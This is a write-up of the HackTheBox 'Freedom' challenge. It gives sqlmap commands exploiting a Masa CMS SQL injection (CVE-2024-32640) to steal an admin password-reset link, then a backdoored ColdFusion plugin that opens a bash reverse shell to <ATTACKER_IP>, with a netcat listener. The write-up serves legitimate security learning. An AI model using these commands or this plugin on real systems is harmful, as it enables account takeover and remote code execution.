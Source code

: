```yaml
---
layout: default
title: "HackTheBox University CTF 2024 - Freedom Writeup"
permalink: /writeups/ctf/HTB-University-CTF-2024/freedom
---
```


<h1><ins>HackTheBox University CTF 2024: Freedom Writeup</ins></h1>

**Date:** 18/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Challenge Name:** Freedom\
**Difficulty:** Medium

## Reconaissance
### NMAP Scan
![NMAP Scan](images/nmap_scan.png)

From the NMAP scan, I immediately noticed that it had most of the common ports open that a Domain Controller would have *(also the hostname was **DC1**...)*, as well as having port 80 (HTTP) open hosting a website that NMAP was able to fetch the **robots.txt** entries from.

The website had the domain name **freedom.htb**.

> Add **freedom.htb** and **DC1.freedom.htb** to the /etc/hosts file.

## Initial Look at the Website
I started up **BurpSuite**, activated **foxy proxy** in my browser and visited **http://freedom.htb**.

![Freedom.htb Website](images/website.png)

I was met with this rather funky blog with 4 blog posts. I looked back at the NMAP scan, specifically at the entries in the **robots.txt** file and saw that `/admin/` was there, so of course, I browsed to that directory.

![Masa CMS Login](images/admin_page.png)

There was a login page for what seemed to be **"Masa CMS"**, but there wasn't a version number anywhere on the page, so looking at **BurpSuite** to see request and response headers sent in requests, I spotted that the version number was disclosed in a response header.

![Masa CMS Version](images/masa_cms_version.png)

The version running is **"Masa CMS 7.4.5"**, now equipped with this information, I took to the internet to research for potential vulnerabilities and exploits that have been found and disclosed for this version.

### SQL Injection
I discovered that there was a recent [SQL Injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection) vulnerability found in **Masa CMS** marked as **CVE-2024-32640** with a [Proof-of-Concept](https://www.pizzapower.me/2024/11/13/mura-masa-cms-sql-injection-cve-2024-32640/) Python script freely available.

Instead of using this PoC, I decided to just use **sqlmap** and quickly threw together a command to use:\
```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T <table> -C <column/s>
```

**Masa CMS** is also open-source, meaning the entire *(unmodified)* source code is available on their [GitHub repository](https://github.com/MasaCMS/MasaCMS).

Looking through the source code, I found a **.sql** file containing all of the table and column names created in the database during the intial setup! There was a table named **tusers** which contained the columns: **Fname**, **Lname**, **UserName**, **Email**, and **Password**.\
*(Amongst quite a few other columns, but I focussed on these mainly)*

I modified my **sqlmap** command to dump the data stored in these columns from the table, it revealed that the **Password** column contained **bcrypt** hashes. I initially attempted to crack these hashes, however I was unable to crack any of them.

## Initial Access
I looked back at the login page on the website and spotted a *"Forgot Password"* feature, I thought that if I clicked that and entered the email address of the admin user (`admin@freedom.htb`), then I would be able to find the password reset link in the database somewhere. I looked back through the source code and found a table named **tredirects** with a column called **URL**, this was the only reference I was able to spot to a URL in any of the tables.

So, I tested it out. I clicked the *"Forgot Password"* button, entered the admin's email address, and then used **sqlmap** to dump the data stored in the **URL** column in the **tredirects** table.

![Admin Password Reset](images/admin_password_reset.png)

```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T tredirects -C URL --dump
```

![Password Reset Link](images/password_reset_link.png)

I copied the retrieved link and pasted it into my browser, it opened up a profile editor for the admin user, I changed the password and submitted it, then it automatically logged me in after the password change! **SUCCESS!**

After reading back the post made by the researchers that discovered the SQL injection vulnerability, I saw that they referenced that it would be possible to get **RCE** by uploading a malicious plugin. Doing some more research, I found out that **Masa CMS** and **Mura CMS** are pretty similar and use the same plugins and language, so I downloaded a pre-made **Mura CMS** plugin and modified the code to run malicious code when installed.

#### Backdooring the Plugin
When reading the NMAP scan results, I spotted that it said that the web server was running on **Apache** for **Ubuntu** which I thought was a bit odd because it was supposedly a Domain Controller which are usually **Windows Server** based. But I just thought that maybe it was running in a **Docker** container or something similar.

I modified the `index.cfm` page in the plugin to contain only this code:

```
<cfexecute name="/bin/bash" arguments="-c '/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
'" variable="data" timeout="10" />
<cfdump var="#data#">
```

I then modified the `Application.cfc` to only include the `index.cfm` and the `settings.cfm` files. This would mean that it only executes my malicious code and doesn't do anything I don't want it to.

```
component accessors=true output=false {

	property name='$';

	include 'plugin/settings.cfm';

	public any function onApplicationStart() {
		return true;
	}

	public any function onRequestStart(required string targetPage) {
		return true;
	}

	public void function onRequest(required string targetPage) {
		include 'index.cfm';
	}

	public void function onSessionStart() {
	}

	public void function onSessionEnd() {
	}

}
```

After modifying the code, I simply zipped it up using the command:\
`zip -r plugin.zip ./MuraPlugin`

After zipping up the plugin contents, I browsed to the plugin upload page on the admin console and uploaded my modified plugin.

![Plugin Upload](images/upload_plugin.png)

I started a listener on my machine:\
`nc -nvlp 4444`

I then clicked *"Deploy"* and then clicked the *"UPDATE"* button to run my plugin. I checked my listener but I didn't have a callback just yet, so I visited the index page of the plugin in my browser:\
`http://freedom.htb/plugins/MuraPlugin/index.cfm`

Again, I checked my listener and I had a shell as... **root!**

![Root Shell](images/root_shell.png)

I looked about the file system but didn't find any flags, I also noticed that it was NOT a **Docker** container.

I then ran the command `mount` to view any mounted filesystems and spotted a filesystem mounted at `/mnt/c`. I changed directory into it and saw that it was a **Windows** filesystem! This must have been where all of the Domain Controller processes were being run. But, I had full root access to the filesystem so I just got the flags from the **Administrator** user's desktop and **j.bret** user's desktop!

## Final Words
This route was definitely unintended as there was no need for any sort of privilege escalation and it gave immediate root access to the filesystem. But nevertheless, it was still an incredibly fun challenge with plenty of enumeration needed to find what was required to exploit the machine.

